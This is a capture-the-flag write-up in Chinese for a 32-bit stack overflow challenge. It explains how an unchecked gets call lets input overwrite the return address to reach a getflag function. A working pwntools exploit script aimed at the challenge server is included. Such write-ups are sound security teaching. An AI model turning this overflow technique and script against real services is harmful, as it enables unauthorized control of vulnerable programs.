 # level1

### 1. 下载文件，使用IDA32位，按F5反编译，发现
![](1.png)  
#### 双击进入stkof函数   
![](2.png)
#### tab + 空格看汇编 
![](4.png)
#### 程序先准备栈, 然后将ebp-0x108的位置当参数传递给_gets函数。因此，_gets会将程序的输入从ebp-0x108开始覆盖，直到遇到'\n'停止。
#### 观察到有一个getflag函数，这个函数可以读flag文件并输出，因此，只要将栈一直覆盖，直到将返回地址覆盖为getflag的地址,stkof()函数结束事，就可以自动调用getflag().

``` 
from pwn import *
context.log_level ="debug"

r = remote("pwn.sixstars.team",22001)
#r = process("./level1-retaddr")
payload = 'a'*0x108 + 'a'*0x4 + p32(0x804856b)

w=r.recvline()
print w

r.sendline(payload)
w = r.recvline()
w = r.recvline()
print w
```



